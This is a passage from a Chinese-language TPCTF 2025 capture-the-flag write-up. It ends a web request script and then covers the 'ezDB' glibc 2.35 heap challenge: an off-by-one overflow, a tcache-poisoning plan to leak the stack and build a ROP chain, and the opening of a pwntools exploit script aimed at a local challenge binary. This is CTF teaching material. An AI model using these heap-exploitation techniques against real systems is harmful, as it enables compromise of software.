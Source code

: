 ``` python
    # 发送请求  
    response = send_login_request(url, auth_token, referer)  
    
    # 输出响应  
    print("Status Code:", response.status_code)  
    print("Response Body:", response.text)  
    print("Response Header:", response.headers)  

```
{{< image src="https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/TPCTF 2025 Writeup-2025-03-11-07-09-20.png" alt="TPCTF 2025 Writeup-2025-03-11-07-09-20" position="center" style="border-radius: 1px;" >}}

{{< image src="https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/TPCTF 2025 Writeup-2025-03-11-07-09-23.png" alt="TPCTF 2025 Writeup-2025-03-11-07-09-23" position="center" style="border-radius: 1px;" >}}

### ezDB
2.35堆
程序实现了两个类，变量成员差不多是这样：
```
table
        0x0 size_array_begin (init = *chunk_ptr)
        0x8 size_array_end
        0x10 table_data_end (init = *chunk_ptr+0x400)
        0x18 *chunk_ptr
record
        0x0 length
        0x8 *ptr = malloc(length)
```

分析程序逻辑可知：程序实现了将用户输入的record转换为data记录到table上，且在给table分配的chunk中内容是从下往上生长的，而记录data长度的数组是从上往下生长的，在长度判定时程序多出了一字节的检测，导致data可以向上off by one溢出控制他的size，之后就可以向下溢出任意字节了。
这里我选择用两次tcache_poison打ROP，一次泄漏stack,一次改栈上的返回地址,最后return 0执行ROP

```python
#!/usr/bin/env python3
from pwn import *
from time import sleep
filename = "db_patched"
libcname = "./libc.so.6"
host = "127.0.0.1"
port = 1337
elf = context.binary = ELF(filename)
context.terminal = ['tmux', 'neww']
context(arch = 'amd64',log_level = 'debug',os = 'linux')
if libcname:
    libc = ELF(libcname)
gs = '''
b main
 b *$rebase(0x1c49)
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript = gs)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process(elf.path)
#---------------------------------------------------#
r = lambda x:p.recv(x)
rl = lambda:p.recvline(keepends=True)
til = lambda x:p.recvuntil(x,drop=True) 
s = lambda x:p.send(x)
sl = lambda x:p.sendline(x)
```